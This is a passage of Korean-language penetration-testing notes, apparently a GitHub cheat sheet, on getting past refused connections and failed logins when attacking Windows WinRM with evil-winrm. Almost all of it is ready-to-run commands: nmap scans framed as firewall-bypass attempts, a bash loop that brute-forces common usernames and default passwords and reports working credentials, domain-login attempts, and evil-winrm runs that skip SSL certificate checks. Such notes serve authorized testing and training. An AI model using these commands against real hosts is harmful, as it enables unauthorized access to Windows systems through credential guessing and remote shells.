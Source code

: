 
## 🚨 문제 해결

### 🚫 WinRM 연결 거부시

```bash
# HTTPS WinRM 확인 (5986)
evil-winrm -i {IP} -u administrator -p password -S -P 5986

# 다른 WinRM 포트 확인
nmap -p 5985,5986,47001 {IP}

# WinRM 서비스 상태 확인
nmap --script http-title -p 5985 {IP}

# 방화벽 우회 시도
nmap -sS -p 5985 {IP}
nmap -sA -p 5985 {IP}
```

### 🔒 인증 실패시

```bash
# 다양한 사용자명 시도
users=("administrator" "admin" "guest" "user" "winrm" "service")
passwords=("password" "admin" "Password123" "" "123456")

for user in "${users[@]}"; do
    for pass in "${passwords[@]}"; do
        echo "Trying $user:$pass"
        timeout 10 evil-winrm -i {IP} -u $user -p "$pass" -e "whoami" 2>/dev/null && echo "SUCCESS: $user:$pass"
    done
done

# 도메인 사용자 시도 (도메인 정보가 있는 경우)
evil-winrm -i {IP} -u {DOMAIN}\\administrator -p password
evil-winrm -i {IP} -u administrator@{DOMAIN} -p password
```

### 🌐 SSL/TLS 문제 (HTTPS WinRM)

```bash
# SSL 인증서 무시
evil-winrm -i {IP} -u administrator -p password -S -k

# 특정 SSL 포트
evil-winrm -i {IP} -u administrator -p password -S -P 5986

# SSL 정보 확인
nmap --script ssl-cert -p 5986 {IP}
openssl s_client -connect {IP}:5986
```
